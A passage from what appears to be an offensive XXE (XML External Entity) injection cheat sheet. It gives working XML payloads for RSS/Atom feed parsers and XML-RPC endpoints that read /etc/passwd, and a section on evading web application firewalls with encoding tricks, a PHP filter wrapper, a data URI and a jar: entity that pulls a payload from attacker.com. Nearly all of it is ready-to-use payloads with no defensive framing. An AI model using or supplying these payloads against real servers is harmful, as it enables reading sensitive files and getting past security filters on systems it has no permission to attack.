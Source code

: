     - **RSS/Atom feeds processing**
      - Applications that fetch and parse RSS/Atom feeds:
        ```xml
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE rss [
          <!ENTITY xxe SYSTEM "file:///etc/passwd">
        ]>
        <rss version="2.0">
          <channel>
            <title>&xxe;</title>
            <link>https://example.com/</link>
            <description>Description</description>
            <item>
              <title>Item Title</title>
              <link>https://example.com/item</link>
              <description>Item Description</description>
            </item>
          </channel>
        </rss>
        ```
      - Server-side feed aggregators often vulnerable
    
    - **XML-RPC/XMLRPC.NET**
      - Remote procedure call protocol using XML:
        ```xml
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE methodCall [
          <!ENTITY xxe SYSTEM "file:///etc/passwd">
        ]>
        <methodCall>
          <methodName>method</methodName>
          <params>
            <param>
              <value>&xxe;</value>
            </param>
          </params>
        </methodCall>
        ```

- **WAF bypass techniques**
  
  - **Using different encodings**
    - URL encoding: `file:///etc/passwd` → `file:///etc/%70asswd`
    - UTF-8 BOM encoding: Add BOM marker before payloads
    - UTF-16 encoding: Convert payload to UTF-16
  
  - **Using alternative payload formats**
    - Using PHP wrappers:
      ```xml
      <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
      ```
    - Using data URIs:
      ```xml
      <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "data://text/plain;base64,SGVsbG8gV29ybGQ="> ]>
      ```
    - Protocol manipulation:
      ```xml
      <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "jar:http://attacker.com/payload.jar!/payload.txt"> ]>
      ```
  